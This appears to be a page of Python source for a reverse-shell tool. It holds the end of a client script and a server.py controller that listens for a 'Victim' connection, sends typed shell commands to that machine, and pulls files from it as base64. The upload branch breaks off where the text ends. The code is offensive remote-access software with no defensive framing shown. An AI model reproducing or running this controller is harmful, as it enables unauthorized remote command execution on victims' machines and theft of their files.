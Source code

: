 ```python
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connection()
#print("connection Established!")

s.close()

```

server.py
```python
#!/usr/bin/python
import socket
import json
import base64
import datetime

HostIP="210.240.*.*"
HostPort=54321
def reliable_send(data):
    json_data =json.dumps(data)
    target.send(bytes(json_data,encoding="utf-8"))
def reliable_recv():
    json_data=bytearray(0)
    while True:
        try:
            json_data+=target.recv(1024)
        
            return json.loads(json_data)
        except ValueError:
            continue



s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR,1)


s.bind((HostIP,HostPort))


s.listen()
print("srver start!")
target,ip= s.accept()
print("Victim connect")


while True:
    command = input("* Shell#~%s: " %str(ip))
    reliable_send(command)
    if command =="q":
        break
    elif command[:2]== "cd" and len(command) >1:
        continue
    elif command[:8] =="download":
        result =reliable_recv()
        if result[:4] != "[!!]":
            with open(command[9:],"wb") as file_down:
                file_down.write(base64.b64decode(result))
        else:
            print(result)
    elif command[:6]=="upload":
        try:
            with open(command[7:],"rb")as file_up:
                content = file_up.read()
```